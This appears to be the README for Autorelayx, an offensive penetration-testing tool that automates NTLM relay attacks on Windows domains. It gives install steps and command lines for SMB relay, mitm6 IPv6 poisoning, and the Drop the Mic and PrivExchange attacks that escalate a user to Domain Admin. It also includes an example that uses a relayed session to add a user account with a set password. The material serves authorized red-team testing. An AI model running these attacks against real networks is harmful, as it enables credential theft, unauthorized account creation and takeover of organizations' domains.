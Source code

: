 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    sudo apt-get install tcpdump python2 python3
    pip install pipenv
    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx

Open the file autorelayx/tools/PrivExchange/httpattack.py. Replace the string "dev.testsegment.local/myattackerurl/" 
with your local IP address (run `ip a` to find your local IP). The modified line should look something like: 
`attacker_url = 'http://192.168.1.30'` where 192.68.1.30 is your actual local IP. 

    cd autorelayx
    cp tools/PrivExchange/httpattack.py tools/impacket/impacket/examples/ntlmrelayx/attack/httpattack.py
    sudo pipenv install
    sudo pipenv shell
    cd tools/impacket
    pip install .

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l <hostlist.txt>```

SMB relay with a custom command and without checking SMB signing.

```python autorelayx.py -tf <targets_file.txt> -c <"net user /add danmcinerney P@ssword123456">```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. The -i argument is optional and specifies the interface to use for both 
Responder and mitm6. It is optional but suggested to use the -d <domain> argument to limit mitm6's responses.

```python autorelayx.py -l <hostlist.txt> -6 -d <domain for mitm6 to poison> -i <interface>```

## Drop the Mic
Escalate a domain user that you have the password for to Domain Admin. Script will test the exchange server(s) for 
vulnerability to SpoolService RPC abuse for the Drop the Mic attack.

```python autorelayx.py --printerbug -dc <domain controller IP/hostname> -u <'DOMAIN/user:password'> -ef <exchange_servers.txt>```

```python autorelayx.py --printerbug -dc <domain controller IP/hostname> -u <'DOMAIN/user:password'> -e <Exchange IP/hostname>```

## PrivExchange
Escalate a domain user that you have the password for to Domain Admin.

```python autorelayx.py --privexchange -dc <domain controller IP/hostname> -u <'DOMAIN/user:password'> -e <exchange server IP/hostname>```

## Passwordless PrivExchange
If you don't have a domain user's password you can try performing the passwordless PrivExchange attack

```python autorelayx.py --httpattack -e <exchange server IP/hostname>```

Passwordless PrivExchange attack coupled with mitm6 poisoning on specific domain

```python autorelayx.py --httpattack -e <exchange server IP/hostname> -6 -d <domain for mitm6 to poison>```